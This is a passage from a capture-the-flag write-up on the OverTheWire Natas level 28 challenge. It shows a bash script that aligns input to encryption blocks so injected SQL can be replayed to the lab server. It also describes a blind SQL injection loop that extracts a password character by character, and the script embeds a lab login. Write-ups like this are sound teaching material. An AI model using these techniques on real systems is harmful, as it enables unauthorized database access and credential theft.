 Awesome! We have jokes!

### SQL

Now that we can query the joke database with our own SQL code, the next objective is to extract the password for natas29.

To help with this objective, I modified the helper script to be more helpful:

<pre class="lang:zsh decode:true ">#!/bin/bash
#Helper script with Natas28 challenge

# Get the input as an argument or STDIN
[ $# -ge 1 ] && input="$1" || read input

strlength=`printf "%s" "$input" | wc -c` 
remainder=$(( 16 - $strlength % 16 )) 

payload=$(printf "%0.s " {1..10}) 
payload+="$input"
payload+=$(printf "%0.s " $(seq $remainder))
payload2=$(urlencode "$payload")

echo "Sending: $payload2"
resp1=$(curl -i \
    http://natas28:JWwR438wkgTsNKBbcJoowyysdM82YjeF@natas28.natas.labs.overthewire.org/index.php \
    -H "User-Agent: curl" \
    -d "query=$payload2"
)

query=$(echo "$resp1" | grep Location | awk -F'query=' '{print $2}')
echo "$query"

# URLdecode, base64 decode, print result from position 49 skipping the header, encode back into base64 
query2=$(urldecode "$query" | base64 -d | tail -c +49 | base64 -w0) 
echo "Encrypted Query: $query2"

output=$(curl -i \
    http://natas28:JWwR438wkgTsNKBbcJoowyysdM82YjeF@natas28.natas.labs.overthewire.org/search.php \
    -H "User-Agent: curl" \
    -d "query=$query2" )

echo "Result: $output"</pre>

The script takes the SQL query we want and returns the output from &#8220;search.php&#8221;. No intermediary steps needed =).

I then experimented with SQL commands to figure out a way to extract the password, and settled on using <span class="lang:mysql decode:true crayon-inline">&#8216;select * from jokes where ascii(substring((select password from users) from %d for 1))=%d #&#8217; % (i, ord(c))</span> in a loop. That will test each character one at a time and if we guess it right, then jokes will be sent back in the response, otherwise no joke.
